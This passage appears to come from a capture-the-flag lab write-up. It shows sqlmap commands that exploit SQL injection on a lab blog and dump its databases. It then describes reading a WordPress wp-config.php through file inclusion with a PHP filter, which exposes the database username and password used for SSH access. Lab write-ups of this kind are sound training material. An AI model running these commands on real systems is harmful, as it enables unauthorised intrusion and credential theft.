 ```bash
sqlmap -u "http://172.16.1.12/blog/category.php?id=2" -p id --technique=U
```

looks like it's vulnerable to SQLi lets get the dbs, tables and dump'em all.

```bash
sqlmap -u "http://172.16.1.12/blog/category.php?id=2" -p id --technique=U --dbs
```

There's a database called flag

```bash
sqlmap -u "http://172.16.1.12/blog/category.php?id=2" -p id --technique=U -D  
flag --tables
```

The table is also called flag so we dump it.

```bash
sqlmap -u "http://172.16.1.12/blog/category.php?id=2" -p id --technique=U -D  
flag -T flag --dump-all
```

There's also another database called `blog_admin_db` so we check that too

## Snake it 'til you make it

I kind of had a weird feeling with `172.16.1.10` it had wordpress hosting in it and also LFI so I tried wpscan.

There were wordpress files in the first machine /var/www/html So i tried to check in this too. As `wp-config.php` is a php file it gets executed by the webserver when trying to read it so we have to use a [php filter](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html) 

So we'll get a base64 encoded text just use cyberchef to decode it and get creds.
This was our decoded text and we have creds for margaret lets ssh.
```php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME' 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'margaret' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );

```